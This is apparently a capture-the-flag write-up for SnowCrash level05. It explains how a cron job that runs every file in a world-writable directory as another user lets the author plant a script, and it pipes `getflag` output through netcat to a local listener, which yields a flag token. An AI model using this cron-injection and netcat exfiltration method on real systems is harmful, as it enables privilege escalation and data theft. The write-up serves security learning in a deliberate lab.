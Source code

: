 ## level05

1. Check files in current working directory (home dir)
    - Nothing to see here

2. Checking what files I (`level05`) own (excluding `/proc/*`)
    - Nothing to see here

3. Checking what files is owned by the user `flag05`
    - `/usr/sbin/openarenaserver`
    - `/rofs/usr/sbin/openarenaserver`

`/usr/sbin/openarenaserver: POSIX shell script, ASCII text executable`

We can read the file using `cat` :

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script is pretty weird :

1. It loops over all files in `/opt/openarenaserver/`
2. It executes them using `bash -x` which will print the commands executed
3. It removes them


I'll be writing a quick script to check how it works, and because I have no idea on how to get the command output (let's say `getflag`) back to me.

```bash
#!/bin/bash
echo 'Hello' | nc 127.0.0.1 6969
```

And then listening on port 6969 using `nc -l 6969`. We cannot execute the `openarenaserver`, so we'll have to find a way.

I didn't even got time to search, the script executed itself automatically ? Probably a cronjob.

```
$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

```bash
level05@SnowCrash:~$ nc -l 6969
Hello
level05@SnowCrash:~$ cat /opt/openarenaserver/asdf
cat: /opt/openarenaserver/asdf: No such file or directory # <--- the file was removed
```

We will edit our cool script to execute `getflag` instead of `echo 'Hello'` :

```bash
#!/bin/bash
getflag | nc 127.0.0.1 6969
```

And wait !

```bash
level05@SnowCrash:~$ nc -l 6969
Check flag.Here is your token : viuaaale9huek52boumoomioc
```